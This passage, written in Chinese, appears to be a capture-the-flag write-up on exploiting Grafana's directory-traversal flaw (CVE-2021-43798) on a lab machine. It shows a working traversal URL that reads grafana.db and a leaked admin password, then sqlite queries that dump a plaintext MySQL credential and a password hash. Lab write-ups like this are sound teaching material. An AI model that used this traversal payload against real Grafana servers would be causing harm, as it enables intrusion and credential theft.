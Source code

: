 ```bash

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
……
```

收集到上面这些信息，不过不懂如何使用。  
那个admin账户密码能登陆进Grafana，但是进去了好像也并没有什么用。  

#### 获取grafana.db信息

后来发现这篇文章：
> <https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798>

浏览器访问 `http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar/lib/grafana/grafana.db` 再次获取DB文件。（之前在Burp右键保存的那个由于带了HTTP头，进入DB执行有些命令时会报错）

感觉这篇写得比较清晰了，跟着PoC文章试试。  
这时候才明白了上面Github文章里说的什么[data source加密](https://github.com/jas502n/Grafana-CVE-2021-43798#ensure-encryption-of-data-source-secrets)。而一开始因为Github和这篇文章都提到那个加密，  
> Note: Data sources store passwords and basic auth passwords in secureJsonData encrypted (AES-256 in CFB mode) by default.  

导致我过于关注 `data_source` 表里的对应字段，发现是 `{}` 啥都没有于是就懵了……
  
进 `grafana.db` 到处看看，发现 `user` 表里面有个admin的账户和疑似加密的密码，但是看上去不是那么容易能解密……以及猜测这个可能就是我刚刚登进Grafana的admin账户密码。   

```bash
sqlite3 grafana.db
sqlite> .tables
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-12-25 03:56:57|0|{}|1|uKewFgM4z

sqlite> select * from user;
1|0|admin|admin@localhost||864a9461c490435c1743f73ed43c215ecfafe48423b6ad1a5feeb893829a48a908920761180b1bbba525982e241390f98205|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-12-24 16:25:07|0|2022-12-24 16:32:31|0
```

又在Grafana里转了两圈，看到Configuration菜单里的Data source和Users。  
其中Users里面就是我登陆进来的admin账户，所以上面的猜想又更深了一分。而Data source里面有刚刚在 `grafana.db` 里看到的那个 `mysql`，原来是对应着这里啊。 

又想想刚刚看 `data_source` 表都没有明白各列是什么意思，搜了一下sqlite展示列名的语法：
```bash
sqlite> PRAGMA table_info(data_source);
0|id|INTEGER|1||1
1|org_id|INTEGER|1||0
2|version|INTEGER|1||0
3|type|TEXT|1||0
4|name|TEXT|1||0
5|access|TEXT|1||0
6|url|TEXT|1||0
7|password|TEXT|0||0
8|user|TEXT|0||0
9|database|TEXT|0||0
10|basic_auth|INTEGER|1||0
11|basic_auth_user|TEXT|0||0
12|basic_auth_password|TEXT|0||0
13|is_default|INTEGER|1||0
14|json_data|TEXT|0||0
15|created|DATETIME|1||0
16|updated|DATETIME|1||0
17|with_credentials|INTEGER|1|0|0
18|secure_json_data|TEXT|0||0
19|read_only|INTEGER|0||0
20|uid|TEXT|1|0|0
```